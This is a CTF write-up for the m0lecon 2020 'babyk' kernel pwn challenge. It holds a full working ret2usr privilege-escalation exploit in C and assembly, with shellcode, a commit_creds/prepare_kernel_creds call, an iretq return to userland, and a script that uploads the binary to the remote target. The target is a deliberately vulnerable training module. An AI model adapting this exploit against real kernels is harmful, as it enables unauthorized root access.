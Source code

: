```yaml
---
ctf_name: "m0lecon 2020 Teaser"
layout: writeup
title:	"babyk"
date:	2020-05-24
category: "pwn"
author: "NicolaVV"
---
```


## The challenge
That was an introductory challenge in kernel exploitation, all modern protections were disabled, source code was given, and the vulnerability was an easy to spot buffer overflow in the write handler of the module.

```c
	char buf[BUFSIZE];

	// if(*ppos > 0 || count > BUFSIZE)
		// return -EFAULT;

	if(raw_copy_from_user(buf, ubuf, count)) // no bounds checking at all
		return -EFAULT;
```

So the plan to get root privileges is:
- take control over saved_rip with the buffer overflow
- make the kernel return to user mapped code, and execute
  commit_creds(prepare_kernel_creds(0))
- nicely switch to userspace without crashing the kernel, to spawn a shell and read the flag

### Finding the right number of A's

```bash
echo aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac > /proc/babydev
```

Gives a nice kernel panic with `RIP=0x6261616862616167` which in ascii translates to `gaabhaab`

```bash
~$ pwn cyclic -l gaab
124
```

### Putting all together

`exploit.c`
```c
#define MAP_PRIVATE     0x02    /* Changes are private.  */
#define MAP_FIXED       0x10    /* Interpret addr exactly.  */
#define MAP_ANONYMOUS   0x20    /* Don't use a file.  */
#define	O_RDWR		    0x0002  /* open for reading and writing */

typedef unsigned long long qword;

extern void kernel_shellcode();
char user_shellcode[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

qword mcpy(char * dst, char * src, qword n)
{
    for (qword i = 0; i < n; ++i)
        dst[i] = src[i];
	return n;
}

void * mmap(void * addr, qword size, qword prot, qword flags)
{
    return syscall64(9, addr, size, prot, flags, -1, 0);
}

int _start (int argc, char **argv) 
{
	char buf[0x1000];
	char * payload = buf;
    // Prepare memory for ret2usr
	void *userland_stack = mmap((void *)0xcafe000, 0x1000, 7, MAP_ANONYMOUS|MAP_PRIVATE|0x0100);
	void *userland_code = mmap((void *)0x1234000, 0x1000, 7, MAP_ANONYMOUS|MAP_FIXED|MAP_PRIVATE);
	mcpy(userland_code, &user_shellcode,sizeof(user_shellcode));
    // Fill up stack until saved_rip
	for (int i = 0;  i < 124; i++)
		*(payload++) = 'A';
	*(qword *)payload = (qword) kernel_shellcode; payload += 8;
	// Profit
	int vuln_fd = syscall64(2, "/proc/babydev", O_RDWR,100,0, 0,0);
	syscall64(1, vuln_fd, buf, payload - buf, -1,-1,-1);
	syscall64(0x60, 0, -1,-1,-1,-1,-1);
	return 0;
}
```

`exploit.S`
```nasm
.text
.intel_syntax noprefix

.global syscall64
.global kernel_shellcode

kernel_shellcode:
    # commit_cred(prepare_kernel_creds(0))
    xor rdi, rdi
    mov rcx, 0xffffffff81052a60     # cat kallsyms | grep prepare_kernel_creds
    call rcx
    mov rdi, rax
    mov rcx, 0xffffffff81052830     # cat kallsyms | grep commit_creds
    call rcx
context_switch:
    swapgs
    # ss
    mov r15, 0x2b
    push 0x2b 
    # rsp - mmapped value
    mov r15, 0xcafe000
    push r15
    # rflags - dummy value
    mov r15, 0x246
    push r15
    # cs
    mov r15, 0x33
    push r15
    # rip - mmapped value
    mov r15, 0x1234000
    push r15
    iretq
end_kernel_shellcode:
    nop

syscall64:
    pop r14
    pop r15
    push r15
    push r14
    sub rsp, 0x100

    mov rax, rdi
    mov rdi, rsi
    mov rsi, rdx
    mov rdx, rcx
    mov r10, r8
    mov r8,r9 
    mov r9, r15
    syscall

    add rsp, 0x100
    ret
```

Compilable with the command: `gcc exploit/exploit.c exploit/exploit.S -no-pie -nostdlib -fomit-frame-pointer`.

Since gcc was not available on the remote qemu instance, the exploit needed to
be compiled in local and then sent it to the remote server, this did the trick:

```python
def send_exploit(compressed_elf):
    CHUNK_SZ = 256
    for i in range(0, len(compressed_elf), CHUNK_SZ):
        chunk = compressed_elf[i: min(i + CHUNK_SZ, len(compressed_elf))]
        chunk = base64.b64encode(chunk)
        cmd = "echo %s | base64 -d  >> /home/user/exp.gz" % chunk.decode()
        p.sendline(cmd)
    p.sendline("cat /home/user/exp.gz | gzip -d > /home/user/exp")
    p.sendline("chmod +x /home/user/exp")
```

### Profit
```
/ $ /home/user/exp
/bin/sh: can't access tty; job control turned off

/ # cat /root/flag.txt
ptm{y0ure_w3lc0m3_4_4ll_th15_k3rn3l_m3g4_fun}
```

### References:
- https://mem2019.github.io/jekyll/update/2019/01/11/Linux-Kernel-Pwn-Basics.html
- https://github.com/pr0cf5/kernel-exploit-practice/tree/master/return-to-user